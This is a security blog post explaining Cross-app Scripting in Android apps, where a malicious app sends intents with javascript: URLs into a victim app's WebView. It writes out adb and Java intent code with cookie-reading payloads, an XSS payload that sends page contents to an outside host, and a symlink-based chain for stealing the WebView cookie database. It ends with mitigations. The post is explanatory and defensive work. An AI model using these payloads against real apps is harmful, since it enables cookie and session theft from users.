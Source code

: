 ```yaml
---
layout: post
title: Cross-app Scripting in Android apps
date: 2021-05-10 20:45:00 +09:00
tags: tech security
---
```


If an Android app accepts [Intents](https://developer.android.com/reference/android/content/Intent?hl=en) to open a URL in a [WebView](https://developer.android.com/reference/android/webkit/WebView), then a malicious app installed on the same device might open a `javascript:alert(1)`-like URL, which will run the provided JavaScript in the context of the victim app's site (that is currently loaded in the WebView). This vulnerability is called [Cross-app Scripting](https://support.google.com/faqs/answer/9084685?hl=en-GB).

<!--break-->

## Background: Intents

On Android, intents are a way for an app to ask another app to do something. There are [explicit intents](https://developer.android.com/reference/android/content/Intent#intent-resolution) that specify the exact class to be run ("hey, open this place in Google Maps") or [implicit intents](https://developer.android.com/reference/android/content/Intent#intent-resolution) that only say what they want to get done and not by whom ("hey, take a photo with any app" or "open this URL in any browser"). If multiple apps offer to handle the implicit intent, Android will ask the user which app they want to use.

Intents are usually defined in the [Manifest](https://developer.android.com/guide/topics/manifest/manifest-intro), e.g.:

```
<intent-filter>
    <data android:scheme="http" />
    <data android:scheme="https" />
    <data android:host="example.com" />
    <action android:name="android.intent.action.VIEW" />
    <category android:name="android.intent.category.DEFAULT" />
    <category android:name="android.intent.category.BROWSABLE" />
</intent-filter>
```

One can also try to find them by looking for where they are invoked by searching for e.g. `"new Intent"` or `"import android.content.Intent;"`, e.g.:

```
final Intent switchToExternalIntent = new Intent(this, ExternalActivity.class)
    .putExtra("url", url)
    .putExtra("shareUrl", shareUrl)
    .putExtra("shareMessage", shareMessage)
startActivityForResult(switchToExternalIntent, RequestCodes.EXTERNAL_ACTIVITY_RESULT_CODE);
```

or

```
final Intent shareIntent = new Intent(Intent.ACTION_SEND);
shareIntent.setType("text/plain");
shareIntent.putExtra(Intent.EXTRA_TEXT, url);
context.startActivity(shareIntent);
```

## Calling an intent

With [adb](https://developer.android.com/studio/command-line/adb) one can call Intents directly, e.g.:

```
adb shell am start -n com.example.myapp/com.example.myapp.MainActivity -a "android.intent.action.VIEW" -d "'javascript:alert(document.cookie)'"
```

The parameters are:

* `com.example.myapp` - is the [application id](https://developer.android.com/studio/build/application-id) of the app
* `com.example.myapp.MainActivity` - the package and class name to be called (e.g. the activity's code might look like: `"package com.example.myapp; .... public class MainActivity"`)
* `android.intent.action.VIEW` is the action defined in the manifest like `<action android:name="android.intent.action.VIEW" />` (sometimes it works without specifying this)
* `-d` sets the data

`adb` is ideal for testing, however let's not forget that a real-life malicious app would send the same Intent from Java like this:

```
Intent i = new Intent();
i.setAction("android.intent.action.VIEW");
i.setClassName("com.example.myapp","com.example.myapp.MainActivity");
i.setData(Uri.parse("javascript:alert(document.cookie)"));
startActivity(i);
```

### Extras

In addition to the main data of an Intent, extra parameters can be passed either via the `putExtra()` Java call or with the `--eX` flags of `abd` depending on the type of the data:

* `--es` for string
* `--eu` for URI
* `--ez` for boolean
* `--ei` for integer
* `--el` for long
* `--ef` for float

More options: [https://developer.android.com/studio/command-line/adb#IntentSpec](https://developer.android.com/studio/command-line/adb#IntentSpec)

Example:

```
adb shell am start -n "com.example.myapp/com.example.myapp.MainActivity" --es url "javascript:alert\(document.cookie\)" --es "app.subject_id" "1234" --eu "android.intent.extra.REFERRER" "android-app:\/\/com.example.myapp"
```

Same in Java:

```
Intent i = new Intent();
i.setAction("android.intent.action.VIEW");
i.setClassName("com.example.myapp","com.example.myapp.MainActivity");
i.putExtra(Intent.EXTRA_REFERRER, Uri.parse("android-app://com.example.myapp"));
i.putExtra("app.subject_id", 1234);
i.putExtra("url","javascript:alert(document.cookie)");
startActivity(i);
```

## Referer-spoofing

Intents can contain an [EXTRA_REFERRER](https://developer.android.com/reference/android/content/Intent#EXTRA_REFERRER) field, and it seems reasonable to check that to ensure only trusted apps can send requests to our app, however this parameter can be easily spoofed by a malicious app (as shown above).

## Impact: I have all your cookies

The impact of [XSS](https://en.wikipedia.org/wiki/Cross-site_scripting) is generally reduced by the [`httpOnly` cookie flag](https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies#restrict_access_to_cookies), however there is a clever trick to bypass this and get all cookies from a WebView. (This is mentioned in [Google's description](https://support.google.com/faqs/answer/9084685?hl=en-GB) too.)

A WebView uses it's own set of cookies that are stored in the `/data/data/package_name/app_webview/Cookies` SQLite file. As this is in the [app's own folder, it is only accessible by the app itself](https://source.android.com/security/app-sandbox).

The attack works like this:

1. The malicious app opens a malicios site within the victim app's WebView
2. This site creates a cookie for it's own domain and sets the cookie value to an XSS payload, e.g. `<img src=x onerror='this.src = "https://example.com/?" + encodeURIComponent(document.getElementsByTagName("html")[0].innerHTML)'>` (this takes the entire page and sends it to an external site)
3. This cookie gets stored in `/data/data/package_name/app_webview/Cookies` along with all the other cookies (this might take a few seconds, so the malicious app might need to wait up to 20-30 seconds)
4. The malicious app creates a symlink to this file, e.g. `ln -s /data/data/package_name/app_webview/Cookies /tmp/symlink.html` (even though the malicous app can't access the cookies file directly, it can make the symlink)
5. The malicious app opens `file:///tmp/symlink.html` in the WebView. Since the Cookies file is owned by the app, it can access it.
6. Since the file extension is html, the WebView will look for any HTML code and interpret it as such. The file is an SQLite database file, so it has a lot of non-ASCII bytes, however the cookie values appear in clear text, thus the HTML code injected in step 2 runs.
7. The injected JavaScript takes the entire content of the file and sends it to an external server. This contains all cookies from the WebView.

The mobile security concept is very different from the desktop: on desktop if a user runs a malicious app, that's (almost) game over (e.g. they can usually start a keylogger, steal the browser's cookie jars etc.). On mobile however it is expected that apps and user data is protected even against a malicious app (e.g. see the fine-tuned permission system). To exploit an intent-based issue, the attacker needs to convince the user to install the attacker's app on their phone, which does reduce the risk, however because of the expectation of apps being separated, we generally still need to consider (and fix) these issues.

## Solution 1: disable calling intents from other apps

This is the [first recommendation by Google](https://support.google.com/faqs/answer/9084685?hl=en-GB) too:

> Find any [Activities](https://developer.android.com/reference/android/app/Activity) with affected [WebViews](https://developer.android.com/reference/android/webkit/WebView). If these [Activities](https://developer.android.com/reference/android/app/Activity) do not need to take [Intents](https://developer.android.com/reference/android/content/Intent) from other apps you can set [android:exported=false](https://developer.android.com/guide/topics/manifest/activity-element#exported) for the [Activities](https://developer.android.com/reference/android/app/Activity) in your [Manifest](https://developer.android.com/guide/topics/manifest/manifest-intro). This ensures that malicious apps cannot send harmful inputs to any [WebViews](https://developer.android.com/reference/android/webkit/WebView) in these activities.

However sometimes this is not an option, e.g. some apps send push notifications to the user, and uppon clicking on those, they send an Intent to the app asking it to open a specific page in the app's WebView showing e.g. a promotion.

## Solution 2: only open trusted links

Have an allowlist of domains and check that the URL from the Intent starts with the entire domain, e.g. `https://example.com/`. The trailing `/` is important, otherwise `https://example.com.attacker.com` would be accepted.

### Accepting any subdomains

If all subdomains of a trusted domain need to be accepted, it's tempting to parse the URL and then ensure that the hostname ends with `.example.com` (leading `.` is important, otherwise `attackerexample.com` would be accepted). However make sure to check the protocol too, otherwise this might get accepted: `javascript://mysite.example.com/%0aalert(1)`. But more on this trick in [another post](https://szabo.jp/2021/05/12/open-redirect-to-XSS/).
